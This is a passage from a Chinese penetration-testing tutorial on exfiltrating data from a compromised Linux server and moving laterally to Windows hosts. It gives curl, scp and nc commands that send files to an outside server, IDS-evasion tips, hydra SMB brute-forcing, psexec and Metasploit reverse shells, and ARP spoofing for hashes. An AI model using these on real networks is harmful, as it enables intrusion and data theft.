 找到需要的东西后，怎么往外发也是个问题，一般大文件用 ftp，scp,小文件用 nc。

ftp 方法：

如果目标装了 curl 的话就很简单了

```
curl -v -T 文件名 ftp://username:password@ftpip 
```

scp 方法:

适合有 ids 之类东西的地方，可以把 sshd 开到 443 等传统加密流量的接口，scp 帐号需要有写入和执行 shell 的权限

```
scp backup.tgz user@123.123.123.123:/tmp/backup.tgz 
```

nc 方法:

先在服务端监听

```
nc -l port > 文件名 
```

然后到要发送文件的服务器

```
nc 服务端 ip 端口 < 文件名 
```

发送小文件还行，大文件有时候会断。

### 从 linux 到 windows

* * *

有些时候你拿了 linux 服务器的 shell，想跨到 windows 的机器上，基本就是通过两个手段，一个是针对 windows 的服务进行 exploit 溢出，还有就是利用在 linux 上搜集的用户名和密码然后通过 psexec 放 shell。

首先要确定 windows 主机的位置和打开的服务，在内网扫开 445 和 3389 的机器，基本是 windows 了，扫的时候要注意，不管用什么工具，尽量用 socket connect 的方式扫。像 SYN 方式扫描如果内网有 ids 之类肯定会被发现，connect 方式扫描相对来说和正常连接差不多。 扫到 windows 机器列表后，准备好刚才在 linux 下收集的各种用户名和密码，还有一些常见的弱密码，生成密码字典和用户名字典，字典里再加上一些 windows 本身的用户名，比如 administrator。 尝试密码的话直接在 linux 下用 hydra，破解 smb 密码，运气好的话，只要扫出一个，就能用 psexec getshell 了。运气不好就剩下溢出这一条路了。如果溢出都不行，windows 主机和 linux 在同一个网段的话，还可以试试通过 arp spoof 抓 smb 认证包，然后把 hash 弄出来破解或者注入 hash，但是动静会比较大，不到最后不建议使用。

psexec：

有几种选择，metasploit 里面 auxiliary 里面的 psexec 模块，可以直接放个 msf 的 reverse paylaod 上去。另外可以把 windows 的服务器的 445 端口反弹出来，再找个 windows 的机器用 psexec。还有就是直接在内网的 linux 机器上用 python 的 psexec，[`code.google.com/p/impacket/`](https://code.google.com/p/impacket/)

**Tags:** [渗透测试](http://drops.wooyun.org/tag/%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95)

版权声明：未经授权禁止转载 [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志
